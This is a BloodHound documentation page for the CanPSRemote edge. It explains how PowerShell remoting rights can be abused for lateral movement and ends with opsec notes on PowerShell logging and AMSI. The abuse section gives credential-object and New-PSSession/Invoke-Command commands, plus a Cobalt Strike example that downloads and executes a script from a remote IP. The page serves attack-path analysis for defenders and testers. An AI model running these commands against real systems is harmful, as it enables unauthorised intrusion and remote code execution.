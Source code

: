 ---
title: CanPSRemote
description: "PS Session access allows you to enter an interactive session with the target computer. If authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges on the system."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


<Info>
**Note**

This edge does not guarantee privileged execution.
</Info>

## Abuse Info

Abuse of this privilege will require you to have interactive access with a system on the network.

A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the target computer if you are not running as that user. To do this in conjunction with New-PSSession, first create a PSCredential object (these examples comes from the PowerView help documentation):

```bash
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

Then use the New-PSSession command with the credential we just created:

```bash
$session = New-PSSession -ComputerName &lt;target computer name&gt; -Credential $Cred
```
This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just created

```bash
Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}
```

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

```bash
Disconnect-PSSession -Session $session
Remove-PSSession -Session $session
```
An example of running through this Cobalt Strike for lateral movement is as follows:

```bash
powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
-ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
Disconnect-PSSession -Session $session; Remove-PSSession -Session $session
```
## Opsec Considerations

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security mechanisms that make it much easier for defenders to see what’s going on with PowerShell in their network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group), [Computer](/resources/nodes/computer)  
Destination: [Computer](/resources/nodes/computer)  
Traversable: **Yes**  

## References

* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7)
